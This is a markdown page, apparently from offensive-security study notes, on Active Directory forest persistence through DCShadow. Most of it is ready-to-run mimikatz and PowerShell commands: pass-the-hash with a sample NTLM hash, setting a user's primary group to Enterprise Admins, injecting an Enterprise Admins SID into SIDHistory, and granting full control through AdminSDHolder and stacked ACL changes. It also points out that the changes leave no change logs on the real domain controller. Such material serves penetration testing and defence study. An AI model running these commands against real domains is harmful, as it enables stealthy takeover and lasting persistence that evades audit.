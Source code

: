 ```yaml
---
title: Forest Persistence
category: Active Directory
order: 7
---
```


We are going to discuss some ways to do a persistence in a forest root.

# DCShadow

DCShadow temporaly registers a new DC in the target domain and uses it to push attributes like `SID History`, `SPNs` and more over on the specified object without leaving the cange logs for modified object.

The new domain controller is registered by modifying the configuration container, SPNs of an exisiting computer object and couple of RPC services.

Due to the attributes are changed from a domain dontroller, **there are no change logs on the actual DC for the target object**.

By default, domain administrative privileges are required to use DCShadow.

To execute this persistence we need to use two isntances of mimikatz. The first one starts RPC servers with SYSTEM privileges and specify attributes to be modified:

* mimikatz.exe

```powershell
!+
!processtoken
lsadump::dcshadow /object:root1user /attribute:Description /value="Hello from DCShadow"
```
And the second one with enough privileges, such as DA, will push the values:

```powershell
privilege::debug
sekurlsa::pth /userAdministrator /domain:corp.local /ntlm:71d04f9d50ceb1f64de7a09f23e6dc4c /impersonate
lsadump::dcshadow /push
```

> **Note**: DCShadow can be used with minimal permissions by modifyng ACLs, `Nishang` has a script to set this permissions to a user.
>
> `Set-DCShadowPermissions -FakeDC machine-user01 -SAMAccountName root1user -Username user01 -Verbose`

## Set Primary Group ID to Enterprise Admin

Now that we have been discovered how to overwrite attributes of users, we can change the group id of a user to the id of the enterprise administrators or domain admins.

```powershell
lsadump::dcshadow /object:user01 /attribute:primaryGroupID /value:519
```
> **Note**: This makes noise, because every one who looks `net group "Enterpise Admins" /domain` will see that the user user01 is a member.

## Change SIDHistory of a user

We can modify the SIDHistory of a user with SID of `Enterprise Admins` group in order to obtain full control of the forest.

```
lsadump::dcshadow /object:user /attribute:SIDHistory /value:S-1-5-21-280534878-1496970234-700767426-519
```


## Modify ntSecurityDescriptor for AdminSDHolder

We can modify the `ntSecurityDescriptor` for AdminSDHolder to add full control for a user.

```powershell
(New-Object System.DirectoryServices.DirectoryEntry("LDAP://CN=AdminSDHolder,CN=System,DC=corp,DC=local")).psbase.ObjectSecurity.sddl
```
We just need to append a full control ACE from above DA with our users SID.

```powershell
lsadump::dcshadow /object:CN=AdminSDHolder,CN=System,DC=corp,DC=local /attribute:ntSecurityDescriptor /value:<MODIFIED ACL>

Modified ACL:

ORIGINAL ACL + FULL CONTROL FOR OUR USER
....(A;;CCDCLCSWRPWPLOCRSDRCWDWO;;;S-1-5-21-560323961-2315414123-15432421423-1323)
```

> **Note**: We just need to add our SID to the SY/BA/DA ACE result. To see the SID we can use:
>
> `Get-NetUser user01`

## Shadowception

We can even run DCShadow from DCShadow. To do that task we will add the following ACLs:

```powershell
(New-Object System.DirectoryServices.DirectoryEntry("LDAP://DC=corp,DC=local")).psbase.ObjectSecurity.sddl
```
> **Note** We can use `/stack` to stack multiple ACL.

### Domain Object

* List ACL:
```powershell
(New-Object System.DirectoryServices.DirectoryEntry("LDAP://DC=corp,DC=local")).psbase.ObjectSecurity.sddl
```
* Append the following ACE:
```
(OA;;CR;1131f6ac-9c07-11d1-f79f-00c04fc2dcd2;;<USER SID>)
(OA;;CR;9923a32a-3607-11d2-b9be-0000f87a36b2;;<USER SID>)
(OA;;CR;1131f6ab-9c07-11d1-f79f-00c04fc2dcd2;;<USER SID>)
```
* Stack the ACL
```
lsadump::dcshadow /stack /object:DC=corp,DC=local /attribute:ntSecurityDescriptor /value:<MODIFIED ACL>
```

### Attacker Computer Object

* List ACL:
```powershell
(New-Object System.DirectoryServices.DirectoryEntry("LDAP://CN=machine01,DC=corp,DC=local")).psbase.ObjectSecurity.sddl
```
* Append the following ACE:
```
(A;;WP;;;<USER SID>)
```
* Stack the ACL
```
lsadump::dcshadow /stack /object:machine01$ /attribute:ntSecurityDescriptor /value:<MODIFIED ACL>
```

### Target User Object

* List ACL:
```powershell
(New-Object System.DirectoryServices.DirectoryEntry("LDAP://CN=user01,DC=corp,DC=local")).psbase.ObjectSecurity.sddl
```
* Append the following ACE:
```
(A;;WP;;;<USER SID>)
```
* Stack the ACL
```
lsadump::dcshadow /stack /object:targetuser01 /attribute:ntSecurityDescriptor /value:<MODIFIED ACL>
```

### Sites Configuration Object

* List ACL:
```powershell
(New-Object System.DirectoryServices.DirectoryEntry("LDAP://CN=Sites,CN=Configuration,DC=corp,DC=local")).psbase.ObjectSecurity.sddl
```
* Append the following ACE:
```
(A;CI;CCDC;;;<USER SID>)
```
* Stack the ACL
```
lsadump::dcshadow /stack /object:CN=Sites,CN=Configuration,DC=corp,DC=local /attribute:ntSecurityDescriptor /value:<MODIFIED ACL>
```

Finally we just start the server:

```
lsadump::dcshadow
```

And on the other session with DA privileges:

```
lsadump::dcshadow /push
```